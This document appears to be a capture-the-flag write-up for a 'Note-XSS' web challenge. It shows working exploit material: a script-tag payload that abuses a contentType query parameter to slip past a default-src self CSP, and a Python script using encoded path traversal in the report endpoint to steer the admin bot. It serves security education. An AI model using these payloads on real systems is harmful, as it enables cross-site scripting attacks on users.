 ```yaml
---
ai_date: '2025-04-27 05:19:13'
ai_summary: Exploited XSS via query parameter manipulation, bypassing CSP restrictions
  by injecting report endpoint URL in JavaScript payload.
ai_tags:
- xss
- csp
- report-uri-bypass
created: 2024-12-07T14:26
points: 191
solves: 54
updated: 2024-12-08T13:44
---
```


Note-XSS challenge, with CSP `default-src: self` and restricted report url.
## probe

- can access raw body via `/api/posts/[id]/body`
- We can change content type via `/path?contentType=text/javascript`

```ts
app.get(
    "*",
    handleAsync(async (req, res, next) => {
        const { error, data: query } = await assetsQuerySchema.safeParseAsync(req.query)
        if (!error) {
            res.header("content-type", query.contentType)
        }
...
```

It appears that `res.header` is set for every single path, as long as the query variable is set.
## csp

Using Google's CSP detector, we can see that the vulnerable CSP seems to be `default-src: self`.

How do we exploit this?

We can exploit the api endpoints to host JS files for us.

```js [payload A]
console.log("external script")
```

```html [payload B]
<script src="/api/posts/1/body?contentType=text/javascript"></script>
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1733640901/2024/12/6fbd95c74bf12b3877d62659ab914a7b.png)

## xss

However to make the bot access body via `/api` directly isn't easy, I got stuck here and my teammate @T!T4N solved it.

The solution is to inject the report endpoint's url param.

```python
import requests

r = requests.post("http://localhost:3300/posts/23%2e%2e%2f%2e%2e%2f%2e%2e%2fapi%2fposts%2f21%3fcontentType=text%2fhtml/report")
print(r.text)

# http://localhost:3300/api/posts/21?contentType=text/html
```